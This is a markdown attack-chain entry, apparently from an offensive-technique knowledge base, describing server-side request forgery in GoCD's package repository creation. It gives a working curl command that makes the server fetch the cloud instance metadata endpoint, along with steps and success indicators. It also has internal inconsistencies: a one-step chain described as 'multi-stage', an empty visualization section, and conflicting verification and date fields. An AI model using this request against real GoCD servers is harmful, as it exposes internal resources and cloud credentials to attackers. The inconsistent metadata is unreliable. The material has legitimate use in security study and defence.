

---
tags:
  - ssrf
  - gocd
  - information-disclosure
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
procedures:
  - '[[procedures/Exploiting-SSRF-in-GoCD-via-Malicious-URL-Parameter]]'
step_count: 1
techniques:
  - '[[Exploit Public-Facing Application]]'
description: >-
  A single-stage attack exploiting SSRF in GoCD's package repository creation to
  disclose internal network resources via unvalidated URL parameters.
skill_level: intermediate
impact_level: high
id: a8033b83-6fe4-488c-bb3c-7580bb2c3e89
created_at: '2025-12-14T04:39:02.398Z'
updated_at: '2025-12-14T04:39:02.398Z'
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# SSRF Exploitation in GoCD Package Repository Creation for Internal Resource Disclosure

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP client like curl)

### Target Environment

- GoCD web application (version vulnerable as of 2016 reports)
- Web platform with admin access to package repository creation
- Internal network resources (e.g., metadata services at 169.254.169.254)

### Initial Access Requirements

- Authenticated access to GoCD admin interface
- Network position allowing requests to the GoCD server
- No prior access needed beyond web login

## Detailed Attack Procedures

### Step 1: Exploit SSRF in Package Repository Creation
procedure: [[procedures/Exploiting-SSRF-in-GoCD-via-Malicious-URL-Parameter]]

**Objective**: Send a crafted request to create a package repository with a malicious internal URL, tricking the GoCD server into fetching and disclosing internal resources.

**Instructions**: Authenticate to the GoCD web interface and navigate to the package repository creation form. Intercept the request using a proxy if needed, or directly use [[commands/gocd-ssrf-exploit-curl]] to submit a JSON payload with an internal URL like the AWS metadata endpoint:

```bash
curl -X POST -H "Authorization: Basic $(echo -n 'username:password' | base64)" -H "Content-Type: application/json" -d '{"repository":{"pluginId":"yum-repository","configuration":[{"key":"REPO_URL","value":"http://169.254.169.254/latest/meta-data/"}]}}' http://gocd-server:8153/go/admin/repositories
```

Monitor the response or server logs for leaked internal data. If the server processes the URL, it will make the request on behalf of the attacker.

**Expected Output**: Server response containing internal resource data (e.g., metadata JSON) or error indicating successful SSRF trigger.

**Success Indicators**:
- Internal data (e.g., instance metadata) appears in the response or logs
- Server attempts connection to internal IP (observable via network monitoring)

## Attack Chain Summary

### Key Achievements

1. Bypassed URL validation to force server-side requests to internal endpoints
2. Disclosed sensitive internal network information
3. Demonstrated potential for further lateral movement if combined with other exploits

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
